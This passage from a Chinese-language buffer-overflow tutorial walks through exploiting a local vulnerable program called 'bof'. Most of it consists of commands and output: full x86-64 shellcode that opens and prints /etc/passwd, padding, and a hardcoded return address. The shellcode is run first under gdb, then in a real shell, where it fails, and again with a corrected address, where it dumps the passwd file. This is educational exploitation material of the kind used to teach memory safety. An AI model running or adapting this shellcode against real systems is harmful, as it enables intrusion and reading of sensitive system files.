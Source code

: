 来把所有东西一块儿测试

```
$ gdb –tui bof 
(gdb) run $(python -c 'print  
"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x 
66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\ 
x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31 
\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2 
f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 +  
"\x7f\xff\xff\xff\xdc\x90"[::-1]') 

```

如果一切正常你就会看到/etc/passwd的内容。要注意内存地址是可以变化的这样可能就和我这里的不同了。

0x07 GDB vs 现实
--------------

* * *

因为gdb会初始化一些变量和其他的东西所以如果你试着在gdb之外使用同样的利用脚本就会失败。不过在这个例子中我加了个对printf的调用来输出缓冲区指针。这样我们就可以很容易地找到正确的值并且在真实的环境中获得地址。

这是使用我们在gdb中找到的值的真实版本

```
$ ./bof $(python -c 'print "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31 
\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34 
\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05 
\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f 
\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74 
\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 +  
"\x7f\xff\xff\xff\xdc\x90"[::-1]') 
0x7fffffffdcf0 
?_w 

AH1H1fH4$HH1fH1H1@HH1H1< 
/etc/passwdAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAA• 
Illegal instruction (core dumped) 

```

很显然利用不成功。因为地址已经从0x7fffffffdc90变成了0x7fffffffdcf0。幸好有这点printf的输出我们只需用正确的值调整一下载荷。

```
$ ./bof $(python -c 'print "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31 
\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34 
\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05 
\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f 
\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74 
\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 +  
"\x7f\xff\xff\xff\xdc\xf0"[::-1]') 
0x7fffffffdcf0 
?_w 

AH1H1fH4$HH1fH1H1@HH1H1< 
/etc/passwdAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
AAAAA• 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
```